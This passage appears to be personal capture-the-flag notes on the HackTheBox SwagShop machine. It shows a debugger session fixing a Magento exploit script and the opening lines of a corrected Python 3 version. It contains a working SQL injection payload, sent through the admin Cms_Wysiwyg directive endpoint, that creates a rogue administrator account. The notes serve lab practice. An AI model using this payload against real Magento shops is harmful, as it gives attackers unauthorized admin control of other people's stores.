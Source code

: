 
```
# Fixing exploit

python3 RCE_magento.py
> /home/b3t4m3/Desktop/b3t4m3/HTB/Easy/SwagShop/exploits/RCE_magento.py(31)<module>()
-> r = requests.post(target_url,
(Pdb) l
 26  	pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
 27  	
 28  	# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
 29  	pdb.set_trace()
 30  	
 31  ->	r = requests.post(target_url,
 32  	                 data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
 33  	                       "filter": base64.b64encode(pfilter),
 34  	                       "forwarded": 1})
 35  	if r.ok:
 36  	   print("WORKED")
(Pdb) p type(pfilter)
<class 'str'>
(Pdb) p pfilter
"popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);SET @SALT = 'rp';SET @PASS = CONCAT(MD5(CONCAT( @SALT , 'b3t4m3') ), CONCAT(':', @SALT ));SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','b3t4m3',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = 'b3t4m3'),'Firstname');"
(Pdb) p pfilter.encode()
b"popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);SET @SALT = 'rp';SET @PASS = CONCAT(MD5(CONCAT( @SALT , 'b3t4m3') ), CONCAT(':', @SALT ));SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','b3t4m3',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = 'b3t4m3'),'Firstname');"
(Pdb)
```

## Exploit

![4f01a1d5c0c842f66145232cf8a43418.png](:/024145ce5c8e4039947ca188ac4f7b7c)

### python3 Script, needed to add .encode() at pfilter

```
import requests
import base64
import sys
import pdb

target = "http://swagshop.htb/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

```